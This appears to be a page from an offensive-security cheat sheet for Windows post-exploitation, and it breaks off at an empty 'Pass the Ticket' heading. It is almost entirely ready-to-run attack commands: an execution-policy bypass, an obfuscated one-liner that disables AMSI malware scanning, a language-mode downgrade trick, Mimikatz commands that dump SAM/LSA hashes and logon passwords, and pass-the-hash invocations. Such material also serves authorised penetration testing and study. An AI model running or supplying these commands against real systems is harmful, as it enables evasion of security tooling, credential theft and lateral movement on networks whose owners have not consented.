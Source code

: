 ```
powershell -ep bypass
```

or

```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

### Powershell Language Mode

```
$ExecutionContext.SessionState.LanguageMode
powershell -version 2
$ExecutionContext.SessionState.LanguageMode = "FullLanguage"
```

### Mimikatz

**Dump Hashes**

```
./mimikatz.exe lsadump::lsa /patch
```

```
lsadump::sam
sekurlsa::logonpasswords
```

or 

```
Invoke-Mimikatz -Command \'"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"\' 
Invoke-Mimikatz -Command \'"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /patch" "exit"\' 
Invoke-Mimikatz -Command ‘"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /patch" "lsadump::sam"
```

**Pass the Hash**

```
sekurlsa::pth /user:xxxx /domain:xxxx /ntlm:xxxxx /run:powershell.exe
sekurlsa::pth /user:USERNAME /domain:DOMAIN /ntlm:HASH /run:COMMAND
```

or 

```
Invoke-Mimikatz -Command \'"sekurlsa::pth /user:xxxx /domain:xxxx /ntlm:xxxxxxx /run:powershell.exe"\'
```

**Pass the Ticket**

